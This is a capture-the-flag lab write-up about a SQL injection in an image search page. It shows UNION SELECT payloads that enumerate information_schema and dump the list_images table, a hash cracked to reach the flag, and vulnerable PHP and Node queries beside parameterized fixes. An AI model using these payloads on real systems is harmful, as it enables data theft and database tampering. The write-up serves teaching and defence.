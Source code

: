 # Image Search Engine SQL injection

## How we found the breach

Before reading this breach explanations please have a look to this breach before:

[SQL injection on members table explanations →](../../sql_injection_members_table/Ressources/Explanations.md)

The principle is same as for the members SQL breach.
As in the previous SQL injection we achieved to retrieve the whole database Tables and Columns.
Images table is not spared:

```sql
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: list_images
Surname : id
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: list_images
Surname : url
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: list_images
Surname : title
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: list_images
Surname : comment
```

`list_images` table has 4 columns:
- id
- url
- title
- comment

### UNION SELECT and CONCAT SQL injection

We will then retrieve all the table's entries with all their fields.

Input:
```sql
-1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images
```

Output:
```sql
ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 1https://fr.wikipedia.org/wiki/Programme_NsaAn image about the NSA !
Url : 1
ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 2https://fr.wikipedia.org/wiki/Fichier:4242 !There is a number..
Url : 1
ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 3https://fr.wikipedia.org/wiki/Logo_de_GoGoogleGoogle it !
Url : 1
ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 4https://en.wikipedia.org/wiki/Earth#/medEarthEarth!
Url : 1
ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 5borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : 1
```

We can see that the last image contains a hash to handle `1928e8083cf461a51303633093573c46`.

#### Retrieving the flag

Via md5 decrypt of `1928e8083cf461a51303633093573c46` containted in the `comment` list_images table column that leads to `albatroz`.

Hashing using sha256 the `albatroz` results in `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188` which is our flag.

## How to exploit the breach

Having a SQL injection breach can lead to be leaking the whole database entries, involving users' personal information, emails, password, etc. 

But not only about stealing data, a hacker could even insert entries in a specific table, for example to add credits to his account. A hacker could even delete all the entries of a table – let's hope you made regular backups of your database.

## How to avoid this breach

A solution to avoid this kind of breach would be to escape received image id using either your native database escaping tools or manually.

An other solution would be to use an ORM that will natively prevent SQL injections.

You could also define restricted accesses to the connection to the database: restricted access to only a few tables, no deletion permission, no reading permission for critical tables, etc.

### Php Example

Unsecured sql querying:

```php
$statement = $dbh->prepare("select comment, url from list_images where list_images.id = {$id}");
$statement->execute();
```

Secured sql querying:

```php
$statement = $dbh->prepare("select comment, url from list_images where list_images.id = ?");
$statement->execute([$id]);
```

### Node Example

Unsecured sql querying:

```js
connection.query(
  `select comment, url from list_images where list_images.id = ${id}`,
  function(err, rows, fields) {
    // Do something with the retrieved data.
  });

```

Secured sql querying:

```js
connection.query(
  'select comment, url from list_images where list_images.id = ?',
  [id],
  function(err, rows, fields) {
    // Do something with the retrieved data.
  });
```

